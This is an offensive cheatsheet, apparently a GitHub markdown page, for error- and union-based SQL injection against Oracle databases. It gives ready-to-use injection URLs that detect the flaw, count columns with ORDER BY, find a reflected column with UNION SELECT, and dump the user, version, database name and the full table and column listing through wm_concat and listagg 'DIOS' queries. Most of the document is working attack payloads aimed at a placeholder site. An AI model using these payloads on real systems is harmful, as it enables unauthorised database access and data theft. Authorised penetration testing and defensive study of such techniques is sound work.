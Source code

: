 # Oracle Error/Union based SQL Injection Cheatsheet
Using this technique, an attacker can enumerate and potentially dump the Oracle database by using the SQL queries.

## Detecting the vulnerability

The most common way to detect a SQLi vulnerability, is by inserting a **'** in the end of GET/POST parameter value:
`http://domain.com/index.php?id=1'`  

If vulnerable, the website might show an SQL syntax error. This is a good sign that you are dealing with **Error-based SQL injection**:
![error_based_sql_vulnerability](https://i.imgur.com/lnUslML.jpg)

Sometimes no error pops up, but if your naked-eye is somehow trained and experienced, you might see visual differences on the website response. Content-Length of the response might change (website might not fully load up). This is a good sign of **Union-based or Blind-based SQL Injection**.

## Find the number of columns using 'ORDER BY' query
Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY.

`http://domain.com/index.php?id=1' order by 1-- -`
This query musn't shows up error, the website MUST load successfully, since there is no lower number than 1. If the error still persists, try removing the **'** since it breaks the SQL query:
`http://domain.com/index.php?id=1 order by 1-- -`

Now it is time to find the correct number of columns. Now let's use the payload that worked, and try increasing the number by 1, untill an error shows up:

`http://domain.com/index.php?id=1 order by 1-- -` no error  
`http://domain.com/index.php?id=1 order by 2-- -` no error  
`http://domain.com/index.php?id=1 order by 3-- -` no error  
`http://domain.com/index.php?id=1 order by 4-- -` no error  
`http://domain.com/index.php?id=1 order by 5-- -` no error
`http://domain.com/index.php?id=1 order by 6-- -` no error
`http://domain.com/index.php?id=1 order by 7-- -` no error
`http://domain.com/index.php?id=1 order by 8-- -` error

This means there are only 7 columns. Now we have to find which one of these 7 columns have information.

## Find the vulnerable column where information are stored using 'UNION SELECT' query

Using a simple query, we determine which of the 7 columns reflect our input using. In **UNION SELECT** queries, you have to put **null** as many times as we found the number on **ORDER BY** (this case: 7).

`http://domain.com/index.php?id=1' Union Select null, null, null, null, null, null, null from dual-- -`

If the website loads up successfully (no error must be displayed), it means that we are using the right syntax (without breaking the vulnerable query used by the website). 

Great, let's find which column is reflecting data. To do that, we have to replace each **null** by integer surrounded by **'**. We have to replace each **null** one by one untill a number is being reflected on the website. For example: 

`http://domain.com/index.php?id=1' Union Select '1', null, null, null, null, null, null from dual-- -` not reflecting
`http://domain.com/index.php?id=1' Union Select '1', '2', null, null, null, null, null from dual-- -` not reflecting
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', null, null, null, null from dual-- -` not reflecting
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', null, null, null from dual-- -` not reflecting
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', '5', null, null from dual-- -` number 5 is being displayed on the website.

We found that the 5th column is reflecting our input. This will be where our DIOS payload or dumping query will be inserted into.

## Dumping data

Some really basic queries to use for dumping the user and the Oracle version:
```sql
user
(select banner from v$version where rownum=1)
```

`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', (select banner from v$version where rownum=1), null, null from dual-- -`

Use **||** if you want to include more than 1 query while dumping:
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', user || '<u>You can also insert HTML code</u>'||(select banner from v$version where rownum=1), null, null from dual-- -`

Retrieving the database name: 
```sql
(select sys.database_name from dual)
(SELECT instance_name FROM V$INSTANCE)
SYS.DATABASE_NAME
```

Dumping the whole database with DIOS

For Oracle 11g or older you can use **wm_concat** function:
```sql
(select wm_concat('<li>'||table_name||':'||column_name)from(select rownum as rnum, table_name, column_name from all_tab_columns order by table_name desc) shell where rnum<120)
```

For Oracle version newer than 11g, **listagg** function is used instead:
```sql
(select listagg('<li>'||table_name||':'||column_name)from(select rownum as rnum,table_name,column_name from all_tab_columns order by table_name desc) shell where rnum<120)
```
```sql
(select LISTAGG(table_name,'<li>') within group (ORDER BY table_name) from all_tables)
```

The following query shows the inserted DIOS into the 5th (and vulnerable) column as a reference:
`http://domain.com/index.php?id=1' Union Select '1', '2', '3', '4', (select listagg('<li>'||table_name||':'||column_name)from(select rownum as rnum,table_name,column_name from all_tab_columns order by table_name desc) shell where rnum<120), null, null from dual-- -`

If everything goes as it should be, all the tables and columns should be displayed on the website.
